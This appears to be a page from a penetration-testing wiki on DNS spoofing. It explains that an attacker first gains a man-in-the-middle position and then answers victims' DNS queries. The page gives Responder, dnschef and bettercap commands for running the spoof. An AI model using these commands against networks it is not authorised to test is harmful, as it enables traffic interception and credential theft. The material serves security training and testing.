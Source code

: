 # DNS spoofing

## Theory

DNS is not multicast or broadcast like [LLMNR, NBT-NS or mDNS](broken-reference). In order to answer DNS requests, attacker first need to receive them. For instance, this can be achieved with [ARP spoofing](arp-poisoning.md) or [DHCPv6 spoofing](broken-reference). DNS spoofing is basically setting up a DNS server and answering DNS queries obtained through man-in-the-middle technique.

## Practice

{% tabs %}
{% tab title="Responder" %}
[Responder](https://github.com/SpiderLabs/Responder)'s (Python) DNS server feature can be used to answer DNS queries.

```bash
responder --interface "eth0"
responder -I "eth0"
```
{% endtab %}

{% tab title="dnschef" %}
[dnschef](https://github.com/iphelix/dnschef) (Python) can be used as a DNS server.&#x20;

```bash
dnschef --fakeip 'Pentest_IP_Address' --interface 'Pentest_IP_Address' --port 53 --logfile dnschef.log
```
{% endtab %}

{% tab title="bettercap" %}
In order to spoof DNS requests, [bettercap](https://www.bettercap.org/) (Go) can be used. This tool can also be used for the first step of [ARP spoofing](arp-poisoning.md) or [DHCPv6 spoofing](broken-reference).&#x20;

```bash
set dns.spoof.domains $DOMAIN_FQDN
set dns.spoof.all true
dns.spoof on
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.bettercap.org/modules/ethernet/spoofers/dns.spoof/" %}
